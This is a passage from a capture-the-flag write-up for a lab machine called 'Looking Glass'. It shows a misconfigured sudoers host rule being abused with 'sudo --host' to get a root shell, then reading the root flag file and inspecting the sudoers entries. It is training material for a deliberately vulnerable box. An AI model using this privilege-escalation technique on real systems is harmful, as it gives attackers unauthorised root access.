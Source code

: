Therefore, I can execute the `/bin/bash` binary using `sudo` within the `--host` flag:

```
alice@looking-glass:/etc/sudoers.d$ sudo --host=ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/etc/sudoers.d# id
uid=0(root) gid=0(root) groups=0(root)
```

Navigate to `/root/` directory and get the root flag:

```
root@looking-glass:/etc/sudoers.d# cat /root/root.txt
[REDACTED]
```

Remember to reverse the output to get the original flag and submit it!

### Bonus

If you are still confusing with the above, as root user, check the others **sudoers** file to have more specific view:

```
root@looking-glass:/etc/sudoers.d# cat jabberwock
jabberwock looking-glass = (root) NOPASSWD: /sbin/reboot
```

Which is similar to:

```
jabberwock@looking-glass:~$ sudo -l
Matching Defaults entries for jabberwock on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jabberwock may run the following commands on looking-glass:
    (root) NOPASSWD: /sbin/reboot
```
